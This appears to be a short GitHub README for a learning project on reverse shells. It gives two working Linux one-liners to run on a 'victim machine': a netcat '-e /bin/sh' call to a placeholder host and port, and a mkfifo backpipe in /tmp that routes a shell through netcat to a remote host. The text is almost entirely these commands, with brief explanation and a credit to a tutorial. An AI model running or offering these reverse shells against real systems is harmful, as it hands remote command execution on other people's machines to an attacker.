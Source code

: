 # Reverse_shell

Reverse shell programs on Windows and Linux for learning.

To make simple reverse shell on linux, you can run like this on victim machine↓
```
nc -e /bin/sh <HOST> <PORT>
```
However, newer linux don't have -e option of ```nc``` command, so
we create "backpipe" with ```mkfifo``` in ```/tmp``` because pretty much any account is allowed to write there. 

```
mkfifo /tmp/p; nc <HOST> <PORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```
### Credit:
[cocomelonc](https://github.com/cocomelonc/)

Thank you for nice article!!
https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html


